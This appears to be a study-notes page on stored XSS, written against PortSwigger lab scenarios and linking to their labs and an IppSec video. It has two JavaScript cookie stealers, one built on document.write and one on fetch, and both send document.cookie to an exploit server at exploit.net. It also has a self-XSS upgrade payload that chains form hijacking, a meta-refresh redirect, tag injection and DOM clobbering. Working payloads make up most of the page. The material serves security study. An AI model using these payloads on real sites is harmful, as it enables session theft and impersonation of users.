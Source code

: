 #### Stored XSS Blog Post  

>Stored XSS Blog post cookie stealer sending document cookie to exploit server.  

```JavaScript
<script>
document.write('<img src="https://exploit.net?cookieStealer='+document.cookie+'" />');
</script>
```  

>Below target has a stored XSS vulnerability in the blog comments function. Steal a victim user session cookie that views the comments after they are posted, and then use their cookie to do impersonation.  

![Stored XSS Blog post](images/stored-xss-blog-post.png)  

>**Fetch API** JavaScript Cookie Stealer payload in Blog post comment.  

```JavaScript
<script>
fetch('https://exploit.net', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```  

>[IPPSEC YouTube using the HackTheBox Bookworm](https://youtu.be/UqDdR10F54A?si=nkhilLzyKQcfqtfU&t=1737), showing `payload.js` JavaScript code how he using `fetch` and learning JavaScript.  

[PortSwigger Lab: Exploiting cross-site scripting to steal cookies](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies)  
  
#### Upgrade stored self-XSS  

>Blog comment with **Stored self-XSS**, upgrading the payload to steal victim information from DOM. The function **edit content** reflect the input in the `<script>` tag. The CSRF token for the **write comment** is same as the **edit content** functions. Below payload use **write comment** function to make the victim create a blog entry on their on blog with our malicious content.
>The `a` character is added to escape the `#` hash character from the initial application `source code`.
>The below `source code` in the blog entry is full exploit to steal victim info.  

```html
<button form=comment-form formaction="/edit" id=share-button>Click Button</button>
<input form=comment-form name=content value='<meta http-equiv="refresh" content="1; URL=/edit" />'>
<input form=comment-form name=tags value='a");alert(document.getElementsByClassName("navbar-brand")[0].innerText)//'>
```  

>This target is exploited by constructing an HTML injection that clobbers a variable named `share_button`, see `source code` below and uses HTML code above. The content is reflected on the page, then using this reflection enable page redirection to victim `/edit` page with the use of the `meta http-equiv` tag to refresh page after 1 second result in redirection.  

![clobbering javascript variable](images/clobbering5.png)  
